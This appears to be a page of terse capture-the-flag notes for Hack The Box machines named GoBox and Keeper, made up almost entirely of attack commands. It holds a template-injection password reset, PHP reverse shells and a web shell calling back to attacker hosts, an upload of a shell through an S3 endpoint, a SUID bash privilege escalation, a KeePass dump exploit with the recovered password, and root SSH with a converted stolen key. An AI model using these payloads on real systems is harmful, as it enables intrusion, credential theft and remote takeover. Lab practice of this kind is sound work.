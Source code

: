 ## GoBox, PHP, Networking, and More

```text
{{.}}
{{.DebugCmd "echo 'username:mm' | sudo chpasswd"}}
```

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKING_IP/443 0>&1'");?>
```

```bash
sudo apt install network-manager-l2tp  
aws config  
aws s3 cp sh.php s3://website/sh.php --endpoint-url=http://10.10.11.113:80  
```

```bash
echo '<?php echo shell_exec($_REQUEST["cmd"]); ?>'|base64
GET /shell.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.10/8008+0>%261' HTTP/1.1
http://10.10.11.113/0xdf.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261'
```

```bash
script /dev/null -c bash
curl http://127.0.0.1:8000?ippsec.run[id]
curl http://127.0.0.1:8000?ippsec.run[cp%20%2fbin%2fbash%20%2ftmp] == cp /bin/bash /tmp
/tmp/bash -p
```

## Keeper Notes

### SCP Command
- Download file from the remote server to your local machine:
  ```bash
  scp lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip /home/kali
  python3 poc.py -d KeePassDumpFull.dmp
  rødgrød med fløde
  puttygen keeper.txt -O private-openssh -O id_rsa
  chmod 600 id_rsa
  ssh root@10.10.11.227 -i id_rsa
```
